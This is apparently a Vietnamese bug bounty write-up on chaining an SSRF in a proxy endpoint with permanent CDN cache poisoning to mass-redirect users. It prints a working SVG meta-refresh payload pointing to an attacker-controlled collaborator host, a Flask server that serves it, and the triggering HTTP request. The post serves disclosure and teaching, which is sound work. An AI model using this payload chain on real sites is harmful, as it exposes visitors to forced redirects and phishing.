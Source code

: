 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug Flaw

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---
## 1. Lỗ Hổng Server-Side Request Forgery(SSRF) Dẫn Đến Cache Poisoning

Lỗ hổng Server-Side Request Forgery (SSRF) được phát hiện trong tham số `url` với chức năng `Proxy Controller`. Nguyên nhân là do ứng dụng thiếu cơ chế xác thực và ủy quyền hiệu quả, cho phép bất kỳ người dùng nào cũng có thể sử dụng chức năng này.

Kẻ tấn công có thể lợi dụng lỗ hổng bằng cách cung cấp một domain tùy ý `(attacker domain)`, buộc máy chủ phải tương tác với các dịch vụ bên ngoài. Tuy nhiên, lỗ hổng này không thể được khai thác để truy cập các tài nguyên nội bộ của máy chủ (như localhost) do ứng dụng đã có bộ lọc `(filter)`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/0.jpg)

Vì lý do không thể gọi tài nguyên nội bộ của máy chủ (localhost) nên `Bugcrowd` đã hạ mức độ nghiêm trọng của lỗ hổng xuống `P5 (Informational)`, chỉ mang tính chất thông tin thay vì là một rủi ro bảo mật nghiêm trọng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---
## 2. Lỗ Hổng Cache Poisoning 

Lỗ hổng Cache Poisoning được phát hiện qua phản hồi của server. Các header như `X-Cache: Hit from CloudFront` và `Age: 5` cùng với `Status 200 OK` cho thấy server đang sử dụng CDN (Content Delivery Network) và nội dung đang được cache.

Ban đầu, khi thử thay đổi `Content-Type` trong header của server độc hại thành `text/html`, server trả về `Status 400 Bad Request` vì không chấp nhận loại nội dung này.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

Tuy nhiên, khi chuyển sang sử dụng `Content-Type: image/svg+xml`, server đã phản hồi với `Status 200 OK`. Điều này chứng tỏ server chấp nhận và xử lý thành công loại nội dung này, mở ra khả năng khai thác lỗ hổng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

Kết quả là, tôi đã tấn công Cache Poisoning thành công.

Tuy nhiên, sau khi nghiên cứu sâu hơn, tôi nhận thấy đây không phải là một lỗ hổng `Cache Poisoning` thông thường. Nó mang tính chất của một `Logic Bug Flaw`.

Cụ thể, server được lập trình để chỉ cho phép gửi yêu cầu đến một endpoint tối đa 3 lần. Sau 3 lần đó, cache sẽ được lưu lại vĩnh viễn. Khi người dùng khác truy cập vào endpoint này, server sẽ luôn phục vụ nội dung độc hại đã được lưu từ trước, thay vì xử lý yêu cầu mới. Đây chính là điểm yếu trong logic của ứng dụng, không phải là một lỗi cấu hình đơn thuần.

Lưu ý: Tôi đã sử dụng công cụ [requestrepo.com](https://requestrepo.com/) để chỉnh sửa các header trong quá trình thử nghiệm.
![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---
## 3. Tác Động và Kịch Bản Tấn Công (Impact & Attack Scenario)

### Tác Động (Impact)

Mặc dù lỗ hổng `Cache Poisoning` cho phép kẻ tấn công chèn nội dung độc hại vào bộ nhớ `cache`, nhưng việc khai thác trực tiếp để thực hiện `XSS Stored` đã bị chặn bởi chính sách bảo mật nội dung `CSP (Content Security Policy)` của hệ thống. Vì vậy, tôi đã chuyển hướng nghiên cứu để tìm một kịch bản tấn công khác khả thi hơn.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/8.png)

Sau khi phân tích, tôi nhận thấy có thể tận dụng khả năng chèn nội dung HTML để gây ra tấn công `Chuyển Hướng Mở (Open Redirect)` bằng cách sử dụng `meta tag`.

### Kịch Bản Tấn Công (Attack Scenario)

Để chứng minh kịch bản này, tôi đã thiết lập một máy chủ độc hại để lưu lại nhật ký truy cập (log).

Tôi đã tạo một file poc.xml trên máy chủ độc hại với nội dung sau:

`poc.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

File này thực chất là một `SVG (một dạng XML)` có chứa thẻ `<foreignObject>`, cho phép nhúng nội dung HTML. Nhờ `namespace http://www.w3.org/1999/xhtml`, thẻ `<meta http-equiv="refresh">` sẽ được trình duyệt của người dùng xử lý, buộc họ tự động chuyển hướng đến một URL do kẻ tấn công chỉ định.

### Quá trình khai thác:

1. Tôi đã thiết lập máy chủ độc hại bằng Flask để phục vụ file `poc.xml` với `header Content-Type: image/svg+xml`. 
```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```

2. Sử dụng `Burp Suite Repeater`, tôi lợi dụng lỗ hổng `SSRF` bằng cách cung cấp địa chỉ của máy chủ độc hại `(http://{ip}:{port}/poc.xml) `vào tham số `u`.
```http
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb-demo.com 
Cookie: None
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

3. Khi server dễ bị tổn thương `(VulnWeb-demo.com)` thực hiện yêu cầu, nó sẽ lấy toàn bộ nội dung từ `file poc.xml` của tôi và lưu vào `cache`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/6.jpg)

4. Kết quả là, server đã trả về nội dung độc hại từ máy chủ của tôi.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 4. Flow diagram

### Một số lưu ý về lỗ hổng
Lỗ hổng này có thể dẫn đến tấn công Open Redirect, nghe có vẻ low-impact, nhưng vấn đề nằm ở chỗ payload có thể được lưu vĩnh viễn trong cache. Điều này khiến mỗi khi người dùng truy cập vào endpoint đó, họ đều bị chuyển hướng, tạo ra một cuộc tấn công hàng loạt.

![alt text](https://mermaid.ink/img/pako:eNp9km9vmzAQxr-KdVPe0SzkH5QXkxKyptpSaWqidBr0hQMXsGpsZsyUNOK7z5i2o9M0v7rz73nuTj5fIJEpQgCDwYUJpgNyiQUhMegcC4whMGGKR1pzHYPTQ3uqGD1wrFqN9bToKIXesucXozsvTy-uV_iALMt1hw-Spz2s8aRDyaXq6IeRPT0BZwL_K8A0ww09IF_S5ClTshamfmCUR3tiaIVNLJpmMIhFpmiZk819e7mI9izZseKRXF19Il-ie_xZY6W7dBmFXNbpjTLzP7bqz9FCa9MCVSf4Gt1RzhIm64q8c4atetmF0RbVL1RkX3OBih4YZ_psy4Vdlz_hKvqm5OlMblAnOVlRTa1uZeFtr1lX0sJbC9c9GJpxUWiy3a8_fr_bWNX677F270avSikqtMqdxQtwIFMshUCrGh0oUBW0TeEf34Sqp_aJG-MpqfghZfFqM6vIcgiOlFcmq8uUalwxajZQvN0qFCmq0CxNQzB1fVsEggucIPDd4dz3pvPpyJt57rU7c-AMwWQ8Hk7nnjsZ-7OJe-15jQPPtuto6Huz5jcMZeBn)

## 5. Link Tham Khảo:

[https://www.w3.org/TR/SVG11/](https://www.w3.org/TR/SVG11/)

[https://www.w3.org/TR/xhtml1/](https://www.w3.org/TR/xhtml1/)

[https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg](https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg)

[https://portswigger.net/web-security/web-cache-poisoning](https://portswigger.net/web-security/web-cache-poisoning)

[https://owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)


## 6. Proof-of-Concept (POC) - Video

![](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/video.gif)

## 7. Kết Luận
Qua lỗ hổng này, chúng ta có thể thấy rằng một lỗ hổng tưởng chừng có mức độ nghiêm trọng thấp (P5) ban đầu lại có thể trở nên nguy hiểm hơn khi được kết hợp với một lỗi logic trong ứng dụng. Điều này nhấn mạnh tầm quan trọng của việc không chỉ tìm thấy lỗ hổng mà còn phải phân tích kỹ lưỡng cơ chế hoạt động của chúng để đánh giá đúng mức độ rủi ro.
